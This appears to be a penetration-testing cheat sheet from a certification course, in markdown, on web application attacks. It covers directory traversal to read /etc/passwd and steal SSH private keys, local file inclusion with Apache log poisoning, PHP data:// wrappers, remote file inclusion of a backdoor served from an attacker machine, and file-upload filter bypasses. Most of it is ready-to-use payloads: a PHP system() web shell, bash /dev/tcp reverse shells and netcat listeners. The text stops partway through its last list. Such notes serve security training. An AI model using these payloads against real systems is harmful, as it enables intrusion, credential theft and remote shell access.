     `http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd`
    `curl http://192.168.50.16/cgibin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
  - Inspect: url?**page=**xxx
  - **Connect SSH from stolen private key**
    ```
    curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/<username>/.ssh/id_rsa -o dt_key
    chmod 400 dt_key
    ssh -i dt_key -p 2222 offsec@mountaindesserts.com
    ```
- **Local file inclusion (LFI)**
  - ⚠️ **Goal: load system files and RCE via log file**   
    `http://target.com/index.php?page=../../../../etc/passwd`
  - Inspect: url?**page=**xxx
  - Include the log file via LFI (write sys cmd to access.log file)
    1. Map env (server & log paths)
       **Linux/Apache: /var/log/apache2/access.log or /var/log/httpd/access_log**
       Windows (XAMPP/Apache): C:\xampp\apache\logs\access.log  
    3. Test log inclusion in header (User-Agent)      
       `<?php echo system($_GET['cmd']); ?>`
       `http://target.com/index.php?page=/var/log/apache2/access.log&cmd=id`  
    5. start netcat listener from kali   
       `nc -nvlp 4444`
    6. URL encoding to bypass bad request error   
       `../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la`
    7. Include 💣 **reverse shell**    
       `bash -i >& /dev/tcp/<kali>/4444 0>&1` #bash  
       `bash -c "bash -i >& /dev/tcp/<kali>/4444 0>&1"` #bourne shell (sh)  
       `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<kali>%2F4444%200%3E%261%22`  #encoding
  - PHP wrappers  
    - encode the PHP snippet into base64  
      `kali@kali:~$ echo -n '<?php echo system($_GET["cmd"]);?>' | base64`  
    - execute system command  
      `kali@kali:~$ curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZW
NobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"`
- **Remote file inclusion (RFI)**   
  - ⚠️ **Goal: load malicious PHP payload from kali**    
  - Inspect: url?**page=**xxx  
  - start kali webshells  
    `kali@kali:/usr/share/webshells/php/$ python3 -m http.server 80`  
  - exploit RFI  
    `curl "http://mountaindesserts.com/meteor/index.php?page=http://<kali>/simple-backdoor.php&cmd=ls"` OR
    `curl "http://mountaindesserts.com:8001/meteor/index.php?page=http://192.168.45.221/php-reverse-shell.php"`      
- **File upload vulnerabilities**    
  - Goal  
    - ⚠️ **upload and execute web shell/RCE-->revere shell**    
    - Upload SSH key into ~/.ssh/authorized_keys   
    - upload malicious xss (stored XSS)  
  - Inspect: file upload input, request param ?file=upload, API endpoints (upload.php, file_upload)  
  - Bypass
    - ❗**filename extensions**: .pHP, .phps, .php7, .pHP, .php5, .phtml
    - double extensions: shell.php.jpg, shell.php;.jpg  
    - MIME manipulation: Content-Type: image/png but payload is PHP
    - null byte injection: `shell.php%00.jpg`
  - Upload an executable files
    - nano /var/www/html/php-reverse-shell.php (change to kali ip and/or port)
    - `curl http://<target>/php-reverse-shell.php`  
  - 💣 get **reverse shell**  
    1. start netcat listener from kali  
       `nc -nvlp 4444`
    2. Execute webshell command  